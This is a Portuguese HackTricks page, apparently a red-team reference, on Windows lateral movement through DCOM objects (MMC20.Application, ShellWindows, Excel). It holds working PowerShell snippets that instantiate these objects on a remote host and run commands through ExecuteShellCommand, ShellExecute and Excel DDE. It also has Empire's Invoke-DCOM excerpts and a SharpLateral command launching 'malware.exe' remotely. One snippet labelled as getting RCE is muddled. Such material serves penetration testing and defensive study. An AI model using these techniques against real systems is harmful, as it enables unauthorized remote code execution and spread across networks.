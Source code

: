 # DCOM Execução

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Você trabalha em uma **empresa de cibersegurança**? Gostaria de ver sua **empresa anunciada no HackTricks**? ou gostaria de ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

**Grupo de Segurança Try Hard**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Aplicação MMC20

**Para mais informações sobre essa técnica, confira o post original em [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**


Os objetos do Modelo de Objeto de Componente Distribuído (DCOM) apresentam uma capacidade interessante para interações baseadas em rede com objetos. A Microsoft fornece documentação abrangente tanto para DCOM quanto para o Modelo de Objeto de Componente (COM), acessível [aqui para DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) e [aqui para COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). Uma lista de aplicações DCOM pode ser obtida usando o comando PowerShell:
```bash
Get-CimInstance Win32_DCOMApplication
```
O objeto COM, [Classe de Aplicação MMC (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), permite a criação de scripts para operações de snap-in do MMC. Notavelmente, este objeto contém um método `ExecuteShellCommand` em `Document.ActiveView`. Mais informações sobre este método podem ser encontradas [aqui](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Verifique executando:

Essa funcionalidade facilita a execução de comandos em uma rede por meio de um aplicativo DCOM. Para interagir com o DCOM remotamente como administrador, o PowerShell pode ser utilizado da seguinte forma:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Este comando conecta-se à aplicação DCOM e retorna uma instância do objeto COM. O método ExecuteShellCommand pode então ser invocado para executar um processo no host remoto. O processo envolve os seguintes passos:

Verificar métodos:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Obter RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Para mais informações sobre essa técnica, consulte o post original [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

O objeto **MMC20.Application** foi identificado como carente de "LaunchPermissions" explícitos, recorrendo a permissões que permitem acesso aos Administradores. Para mais detalhes, um tópico pode ser explorado [aqui](https://twitter.com/tiraniddo/status/817532039771525120), e é recomendado o uso da ferramenta OleView .NET de [@tiraniddo](https://twitter.com/tiraniddo) para filtrar objetos sem permissão de lançamento explícita.

Dois objetos específicos, `ShellBrowserWindow` e `ShellWindows`, foram destacados devido à falta de Permissões de Lançamento explícitas. A ausência de uma entrada de registro `LaunchPermission` em `HKCR:\AppID\{guid}` significa a ausência de permissões explícitas.

###  ShellWindows
Para `ShellWindows`, que não possui um ProgID, os métodos .NET `Type.GetTypeFromCLSID` e `Activator.CreateInstance` facilitam a instanciação do objeto usando seu AppID. Esse processo utiliza o OleView .NET para recuperar o CLSID para `ShellWindows`. Uma vez instanciado, a interação é possível através do método `WindowsShell.Item`, levando à invocação de métodos como `Document.Application.ShellExecute`.

Exemplos de comandos PowerShell foram fornecidos para instanciar o objeto e executar comandos remotamente:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Movimentação lateral com Objetos DCOM do Excel

A movimentação lateral pode ser alcançada explorando objetos DCOM do Excel. Para obter informações detalhadas, é aconselhável ler a discussão sobre a alavancagem do Excel DDE para movimentação lateral via DCOM no [blog da Cybereason](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

O projeto Empire fornece um script PowerShell, que demonstra a utilização do Excel para execução de código remoto (RCE) manipulando objetos DCOM. Abaixo estão trechos do script disponível no [repositório GitHub do Empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), mostrando diferentes métodos para abusar do Excel para RCE:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Ferramentas de Automação para Movimentação Lateral

Duas ferramentas são destacadas para automatizar essas técnicas:

- **Invoke-DCOM.ps1**: Um script PowerShell fornecido pelo projeto Empire que simplifica a invocação de diferentes métodos para executar código em máquinas remotas. Este script está acessível no repositório do Empire GitHub.

- **SharpLateral**: Uma ferramenta projetada para executar código remotamente, que pode ser usada com o comando:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Ferramentas Automáticas

* O script Powershell [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) permite invocar facilmente todas as formas comentadas de executar código em outras máquinas.
* Você também pode usar [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Referências

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

**Grupo de Segurança Try Hard**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
